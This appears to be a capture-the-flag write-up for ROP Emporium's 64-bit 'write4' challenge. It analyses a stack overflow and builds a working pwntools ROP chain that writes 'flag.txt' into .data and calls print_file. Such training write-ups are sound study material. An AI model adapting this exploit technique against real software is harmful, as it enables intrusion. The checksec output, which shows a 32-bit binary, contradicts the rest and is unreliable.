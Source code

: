 # write4 - 64 Bit
Program execution:
```
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> <input_here>
```
Run checksec: `checksec ./write4`
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Again, `main` call `pwnme`, but this time `pwnme` is in an external file, which must be the given libwrite4.so.

Disassembling libwrite4.so shows that just like in the past challenges, `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `rbp-0x20`:
```assembly
lea     rax, [rbp-0x20 {var_28}]
mov     edx, 0x200
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read
```

We also find the implementation of a `print_file` function which was in the binary's GOT:
```c
int64_t print_file(char* arg1)

00000965  FILE* rax_1 = fopen(filename: arg1, mode: data_a37)
000009a7  if (rax_1 != 0)
000009a7      void var_38
000009a7      fgets(buf: &var_38, n: 0x21, fp: rax_1)
000009b3      puts(str: &var_38)
000009ce      return fclose(fp: rax_1)
00000988  printf(format: "Failed to open file: %s\n", arg1)
00000992  exit(status: 1)
00000992  noreturn
```

This function will print a file specified by the string argument (address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z write4` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b4 0x004006b4 11  12   .rodata ascii nonexistent
```
This means we will need to store a "flag.txt" string somewhere where we know the address (so stack won't work). This area of memory will also need to be writeable. We can use `readelf` to view a list of program segments and their accessibility flags.
`readelf -S write4`:
```
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.build-i NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007c  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043c  0000043c
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400450  00000450
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000182  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006a4  000006a4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006b0  000006b0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006c0  000006c0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400708  00000708
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f6  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001876
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```
We're interested in the sections with the `W` flag (writable). `.data` is as good as any and putting data there is the least likely to cause issues. To be safe we can use `objdump` to view a hexdump of that section and confirm there is no important data we are at risk of overwriting:
`objdump -s -j .data write4`:
```
write4:     file format elf64-x86-64

Contents of section .data:
 601028 00000000 00000000 00000000 00000000  ................
```
So we know we need to write "flag.txt" to `.data`, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation).
`ropper -f write4 --search 'mov [???], ???'`:
```
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [???], ???

[INFO] File: write4
0x0000000000400629: mov dword ptr [rsi], edi; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
```
We would rather move 8 bytes at a time (qword) so we'll use the 2nd gadget. So now we need to find gadgets that will let us pop items off the stack and into `r14`, `r15` and `rdi` (1st argument register).

`ropper -f write4 --search 'pop'`:
```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: write4
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068e: pop r13; pop r14; pop r15; ret;
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400692: pop r15; ret;
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax;
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040068f: pop rbp; pop r14; pop r15; ret;
0x0000000000400588: pop rbp; ret;
0x0000000000400693: pop rdi; ret;
0x0000000000400691: pop rsi; pop r15; ret;
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret;
```
Coincidentally there is 1 gadget that will let us pop `r14` and `r15` (`0x0000000000400690`), and there is another gadget that will let us pop `rdi` (`0x0000000000400693`)
Since we can only move 8 bytes at a time, we will have to do 2 moves. One for "flag.txt" and one with just null bytes so that our string ends with a null terminator.
Each time we write 8 bytes, remember we need to offset the .data address to write to, by 8.

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./write4"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
     gdb.attach(p, '''break main''')

data_addr = 0x0000000000601028
mov_ptr_r14_r15_addr = 0x0000000000400628 # mov qword ptr [r14], r15; ret;
pop_r14_r15_addr = 0x0000000000400690     # pop r14; pop r15; ret;
pop_rdi_addr = 0x0000000000400693         # pop rdi; ret;

p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)

for i, string in enumerate([b'flag.txt', b'\x00'*8]):
     # build our string, 8 bytes at a time
     payload += p64(pop_r14_r15_addr)
     payload += p64(data_addr + i*8)
     payload += string
     payload += p64(mov_ptr_r14_r15_addr)

# with our .data set up, we can call print_file
payload += p64(pop_rdi_addr)
payload += p64(data_addr)
payload += p64(elf.symbols['print_file'])

p.sendline(payload)

p.interactive()
```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```